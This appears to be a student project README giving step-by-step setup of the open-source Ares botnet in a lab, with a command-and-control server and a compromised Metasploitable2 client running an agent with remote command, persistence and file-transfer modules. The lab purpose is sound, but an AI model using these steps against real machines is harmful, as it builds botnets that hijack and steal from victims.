 # 460 Semester Project - Botnet attacks, Mitigation and Analysis

Project files for 460 SP

## Ares Botnet setup
To set up the Ares botnet, do the following:

### Server VM - Kali Linux or Ubuntu Server 16.04
* Make sure *sqlite3* is installed - *sudo apt-get install sqlite3*
  * Also make sure Python >=2.6 is installed
* Download the Ares botnet code - *wget https://github.com/sweetsoftware/Ares/archive/master.zip*
* Unzip the downloaded archive
* Navigate to *Ares/server/conf* and modify the *server.conf* file.
    * Change the line *server.socket_host: '127.0.0.1'* to *server.socket_host: '0.0.0.0'*
* Execute *python db_init.py* in *Ares/server/* to create and initialize the SQLite3 database.
* Finally, start the server - *python server.py*
* Navigate to the IP address of the server VM at port 8080 to access the Ares command interface.  Enter a database password when prompted and login.

### Client -- Metasploitable2 VM
* Using Kali Linux, exploit a vulnerability and obtain a root shell
* Set up the Metasploitable2 VM

  #### Edit the sources file to allow program downloads and updates:
  * *sudo mv /etc/apt/sources.list /etc/apt/sources.list.mv*
  * *sudo nano /etc/apt/sources.list* and add:
    * deb http://old-releases.ubuntu.com/ubuntu/ hardy main restricted universe multiverse
    * deb http://old-releases.ubuntu.com/ubuntu/ hardy-updates main restricted universe multiverse
    * deb http://old-releases.ubuntu.com/ubuntu/ hardy-security main restricted universe multiverse
    * deb http://ppa.launchpad.net/python-dev/ppa/ubuntu hardy main

  #### Fix error about keyserver
  * Issue *sudo apt-get update*.  If there is an error about keys, do:
    * *sudo apt-key adv --keyserver keyserver.ubuntu.com --recv-keys (the key code in the response showing the problem)*
  * Finally, update using *sudo apt-get update*

  #### Install Python 2.6, pip and python-requests
  * Install Python 2.6 - *sudo apt-get install python2.6*
  * Install pip - *sudo apt-get install python-pip*
  * Install requests - *sudo pip install requests*

  #### Join the botnet
  * Download the botnet files - *wget https://github.com/sweetsoftware/Ares/archive/master.zip*
  * Extract the archive and navigate to Ares/agent/python
  * Modify two files:
    * settings.py --- change 'localhost' to the IP of the C&C server (Kali VM)
    * agent.py --- comment out/modify the following lines:
      * *from modules import screenshot*
      * Change the line *MODULES = ['runcmd', 'persistence', 'download', 'upload', 'screenshot']* to *MODULES = ['runcmd', 'persistence', 'download', 'upload']*
      (that is, remove 'screenshot' from the end of the array list.)
  * Note to self: add a step here to step python 2.6 as default
  * Finally, join the botnet by executing *python2.6 server.py*




<!-- ## Update 11/29/2016
* Added files for Ares Python Botnet

## Setting up the server
* chmod +x and use sudo ./setup.sh to run the setup script
* Automatically downloads all necessary packages, modifies file with IP address
of the C&C server and starts the C&C @ port 8080

## Setting up the bots
* setup.sh handles setting the IP address of the C&C server for the bot
* Simply execute python agent.py within the Ares/agent/python/ directory -->
